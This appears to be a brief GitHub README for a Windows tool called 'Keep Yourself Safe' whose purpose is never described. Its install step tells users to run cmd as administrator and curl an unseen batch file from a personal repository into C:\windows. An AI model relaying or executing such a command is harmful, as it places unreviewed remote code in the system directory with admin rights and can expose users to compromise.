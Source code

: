 # Keep Yourself Safe

## Images:
<img scr="/screen.png" weight="" height="">

## How to install
<p> You just need open cmd with admin perms, and paste next command<p/>

```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```
### Notice that file will be stored in Windows packpage


## Boot
<p> After installing, you can boot it with command KYS in cmd <p/>
